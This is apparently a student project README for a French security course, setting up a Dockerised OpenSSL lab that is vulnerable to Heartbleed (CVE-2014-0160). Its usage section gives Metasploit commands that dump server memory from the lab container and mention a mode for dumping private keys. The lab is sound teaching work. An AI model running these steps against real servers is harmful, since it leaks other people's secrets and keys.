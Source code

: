 # Introduction à la sécurité des systèmes d'informations

## Equipe

* Guillaume MALLET
* Tom RUSSELLO
* Vincent TAVERNEIR

## Faille choisie

CVE-2014-0160 : OpenSSL Heartbeat extension implementation, dite *Heartbleed*.

Versions vulnérables : OpenSSL 1.0.1 through 1.0.1f (inclusive) are vulnerable
(http://heartbleed.com/).

## Références

* http://heartbleed.com/
* https://xkcd.com/1354/

## Usage

```bash
# Build the image
docker build -t cysec-heartbleed .

# Run a container from the built image
docker run --name cysec-heartbleed -it cysec-heartbleed

# Find out the IP address of the container
docker network inspect bridge

# Run metasploit
msfconsole
use auxiliary/scanner/ssl/openssl_heartbleed
set ACTION DUMP      # Just dump data. Use KEYS if you want to try dumping the keys
set RHOST 172.17.0.2 # IP address from the network inspect command
set RPORT 443        # Change if you use a different port in the container
run
```
